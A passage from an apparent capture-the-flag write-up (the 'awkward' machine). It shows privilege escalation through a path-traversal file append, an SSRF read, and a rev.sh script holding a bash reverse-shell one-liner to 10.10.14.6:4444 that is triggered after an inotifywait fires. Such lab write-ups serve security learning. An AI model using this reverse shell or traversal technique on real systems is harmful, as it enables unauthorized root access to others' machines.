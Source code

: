 ![picture 26](/assets/images/4def1beeb6fab9e207992149695493f86a8503c56d0267cf3a342c4fd87c9610.png)  

We can notice that we've successfully written into a file. (mind the `head` and `tail`, we just append and not rewrite everything).

Observing the pspy64s output, this is the command that fires in the background.

```
sh -c head -2 /var/www/store/product-details/4.txt | tail -1 >> /var/www/store/cart/../../../../../var/www/private/leave_requests.csv
```

We need SSRF again to check the `/var/www/private/leave_results.csv`

![picture 25](/assets/images/5d0c7dcd397825f37fddb803537b13b00e41d2992de9842a48177ad53772e437.png)  

Script use that will be invoked after `inotifywait` fires on modification.
```
bean@awkward:/tmp$ cat rev.sh 
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.6/4444 0>&1
```

Root shell has opened
![picture 29](/assets/images/7cbce73ada57fd864e588849451e9e0d06b4871df0b1a9b57c748c9498db3136.png)  
